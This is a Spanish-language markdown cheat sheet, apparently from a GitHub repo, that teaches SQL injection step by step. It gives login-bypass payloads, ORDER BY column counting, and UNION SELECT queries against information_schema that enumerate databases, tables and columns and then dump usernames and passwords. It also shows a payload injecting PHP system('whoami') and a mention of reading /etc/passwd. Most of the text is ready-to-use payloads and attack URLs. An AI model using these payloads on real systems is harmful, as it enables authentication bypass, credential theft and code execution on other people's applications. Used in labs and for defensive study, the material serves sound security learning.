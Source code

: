 ### Autenticación débil basada en SQL:
- Formulario de inicio de sesión (username - passwd) donde la inyección intenta **eludir la autenticación.**
```sql
SELECT * FROM users WHERE username='' AND passwd=''
1. username='admin' or 1=1-- - AND passwd='admin'
2. username='admin' or 1=1#
3. user='admin' -- || user='admin'-- -
```
<p align="center">
  <img src="https://i.postimg.cc/Fs1s7nJQ/sql-ejemplo-bool.png" alt="sql"/>
</p>
#### Determina el número de columnas devueltas por la consulta
- Aprovechando el manejo de error en la respuesta para saber el total de columnas.
```sql
SELECT password,email FROM users WHERE username='pepe'' order by 2-- -
1. username order by 2-- -
2. username order by 3-- -//Devuelve error ya que al comienzo solo se seleccionan 2
```
<p align="center">
  <img src="https://i.postimg.cc/Z5MNWdqw/sql-ejemplo-error-ORDER-BY.png" alt="sql"/>
</p>
**Error ORDER BY**
<p align="center">
  <img src="https://i.postimg.cc/pL3FQXxF/ERROR-sql.png" alt="sql"/>
</p>

- Combinar del 1 hasta el total de columnas de la tabla con UNION SELECT
```sql
SELECT password,email FROM users WHERE username='pepe' union select 1,2-- -
SELECT password,email FROM users WHERE username='pepe' union select NULL,NULL-- -
//Este último va en la URL
```
+ Mostrar una posible inyección de código PHP
```sql
SELECT password,email FROM users WHERE id=1 UNION SELECT "<?php system('whoami'); ?>",user();-- -;
```
<p align="center">
  <img src="https://i.postimg.cc/Z5KPBmx5/sql-inyeccion-code-y-dbuser.png" alt="sql"/>
</p>
- Mas ejemplos con el uso de UNION SELECT '',''-- -
<p align="center">
  <img src="https://i.postimg.cc/6qxB0qpy/mas-ejemplos-con-UNION.png" alt="sql"/>
</p>
+ Utilizando una inyección de código hacia un directorio como **/etc/hosts** o **/etc/passwd**
<p align="center">
  <img src="https://i.postimg.cc/1X0nT1WV/load-file-sql.png" alt="sql"/>
</p>
---
+ **Recupera las bases de datos disponibles en el servidor - LISTAR DBS**
```sql
//Ejemplo por consola
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT username,group_concat(schema_name) FROM information_schema.schemata-- -
```
```SQL
//Esto va en la URL
' UNION SELECT schema_name,NULL FROM information_schema.schemata-- -
```
- **Recupero "todas" las tablas creadas en cada base de datos. - LISTAR TABLAS**
```SQL
//Esto va en la URL
' UNION SELECT table_name,NULL FROM information_schema.tables-- -
```
-  LISTAR COLUMNA
<p align="center">
  <img src="https://i.postimg.cc/7ZT8y18D/tabla-y-dbs.png" alt="sql"/>
</p>
```sql
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_schema='public' AND table_name='users'-- -
```
information_schema.tables > Muestra todas las tablas

- Leer todos los nombres de usuario y contraseña de una tabla
```sql
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT username,password FROM users-- -
```
<p align="center">
  <img src="https://i.postimg.cc/Fs1s7nJQ/sql-ejemplo-bool.png" alt="sql"/>
</p>
---
## Tipos de inyecciones y "paso a paso".

##### 1.er Paso:
### ' ORDER BY [num_columns]-- -

Determina `' ORDER BY [num]-- -` el número de columnas en la tabla de la base de datos.
<p align="center">
  <img src="https://i.postimg.cc/N0GGQs8R/sqli.png" alt="sqli"/>
</p>
+ Ejemplo.
```url
https://example.com/filter?category=gift' ORDER BY 1-- -
https://example.com/filter?category=gift' ORDER BY 2-- -
https://example.com/filter?category=gift' ORDER BY 3-- -
https://example.com/filter?category=gift' ORDER BY 4-- -
```
<p align="center">
  <img src="https://i.postimg.cc/W1tQcpBz/image.png" alt="sql"/>
</p>
**"Al obtener un error se sabe que el número anterior es el número de columnas."**
##### 2.do Paso:

### ' UNION SELECT [NULL x cant_columns]-- -
<p align="center">
  <img src="https://i.postimg.cc/76KsrqhX/imagen.png" alt="sql"/>
</p>

- Ejemplos
1. Descubrir los nombres de las DB.
```SQL
SELECT * FROM tabla UNION SELECT schema_name,2,3,4 FROM information_schema.schemata;-- -;
```
2. Descubrir las tablas creadas dentro de cada DB.
```SQL
SELECT * FROM tabla UNION SELECT table_name,2,3,4 FROM information_schema.tables;-- -;
```
3. Descubrir las tablas dentro de una DB específica.
```SQL
SELECT * FROM tabla UNION SELECT table_name,2,3,4 FROM information_schema.tables WHERE table_schema='name_DB';-- -;
```
4. Ver las columnas de una tabla.
```SQL
SELECT * FROM tabla UNION SELECT column_name, 2, 3, 4 FROM information_schema.columns WHERE table_name='users' AND table_schema='name_DB';-- -;
```
5. Ver los datos dentro de una DB
```SQL
SELECT username,password FROM users UNION SELECT username,password FROM login.users;
```
